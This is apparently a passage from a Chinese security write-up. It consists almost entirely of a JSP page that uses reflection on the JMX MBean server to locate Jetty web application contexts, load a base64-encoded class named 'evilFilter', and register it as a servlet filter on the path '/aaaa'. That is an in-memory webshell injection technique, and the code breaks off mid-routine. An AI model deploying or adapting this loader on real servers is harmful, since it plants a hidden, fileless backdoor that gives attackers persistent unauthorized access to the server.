 代码整合如下

```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="com.sun.jmx.mbeanserver.JmxMBeanServer" %>
<%@ page import="com.sun.jmx.mbeanserver.Repository" %>
<%@ page import="com.sun.jmx.mbeanserver.NamedObject" %>
<%@ page import="java.util.Set" %>
<%@ page import="javax.management.ObjectName" %>
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="sun.misc.BASE64Decoder" %>
<%@ page import="java.util.EnumSet" %>

<%
    try{
        JmxMBeanServer jmxMBeanServer = (JmxMBeanServer) ManagementFactory.getPlatformMBeanServer();
        Field mbsInterceptorF = Class.forName("com.sun.jmx.mbeanserver.JmxMBeanServer").getDeclaredField("mbsInterceptor");
        mbsInterceptorF.setAccessible(true);
        Object mbsInterceptor = mbsInterceptorF.get(jmxMBeanServer);
        Field repositoryF = Class.forName("com.sun.jmx.interceptor.DefaultMBeanServerInterceptor").getDeclaredField("repository");
        repositoryF.setAccessible(true);
        Repository repository = (Repository) repositoryF.get(mbsInterceptor);
        Set<NamedObject> namedObjectSet = repository.query(new ObjectName("org.eclipse.jetty.webapp:type=webappcontext,*"), null);
        for (NamedObject namedObject : namedObjectSet) {
            Field _managedF = namedObject.getObject().getClass().getSuperclass().getSuperclass().getDeclaredField("_managed");
            _managedF.setAccessible(true);
            Object webAppContext = _managedF.get(namedObject.getObject());
            Field _servletHandler = webAppContext.getClass().getSuperclass().getDeclaredField("_servletHandler");
            _servletHandler.setAccessible(true);
            Object servletHandler = _servletHandler.get(webAppContext);
            ClassLoader contextClassLoader = Thread.currentThread().getContextClassLoader();
            BASE64Decoder base64Decoder = new BASE64Decoder();
            byte[] bytes = base64Decoder.decodeBuffer("yv66...");
            Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
            defineClass.setAccessible(true);
            Class evilFilter = (Class) defineClass.invoke(contextClassLoader, bytes, 0, bytes.length);
            ClassLoader classLoader = servletHandler.getClass().getClassLoader();
            Class source = classLoader.loadClass("org.eclipse.jetty.servlet.Source");
            Field JAVAX_API= source.getDeclaredField("JAVAX_API");
            Method method = servletHandler.getClass().getMethod("newFilterHolder", source);
            Object filterHolder  = method.invoke(servletHandler, JAVAX_API.get(null));
            filterHolder.getClass().getMethod("setName", String.class).invoke(filterHolder, evilFilter.getName());
            filterHolder.getClass().getMethod("setFilter", Filter.class).invoke(filterHolder, evilFilter.newInstance());
            servletHandler.getClass().getMethod("addFilter", filterHolder.getClass()).invoke(servletHandler, filterHolder);
            Class FilterMapping = classLoader.loadClass("org.eclipse.jetty.servlet.FilterMapping");
            Object filterMapping = FilterMapping.newInstance();
            Method setFilterHolder = filterMapping.getClass().getDeclaredMethod("setFilterHolder", filterHolder.getClass());
            setFilterHolder.setAccessible(true);
            setFilterHolder.invoke(filterMapping, filterHolder);
            filterMapping.getClass().getMethod("setPathSpecs", String[].class).invoke(filterMapping, new Object[]{new String[]{"/aaaa"}});
```